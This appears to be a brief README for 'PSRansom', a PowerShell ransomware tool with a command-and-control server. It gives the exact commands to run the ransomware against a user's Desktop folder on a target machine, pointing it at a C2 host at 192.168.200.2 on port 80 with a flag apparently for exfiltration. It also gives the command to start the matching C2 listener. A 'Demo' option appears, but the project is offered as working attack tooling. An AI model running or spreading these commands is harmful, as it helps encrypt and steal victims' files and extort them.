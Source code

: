 # PSRansom
PSRansome - Powershell based Ransomeware with C2

On Target Machine:

.\PSRansom.ps1 -e C:\Users\bob\Desktop\ -s 192.168.200.2 -p 80 -x -Demo


On C2 (192.168.200.2):

.\C2Server.ps1 * 80
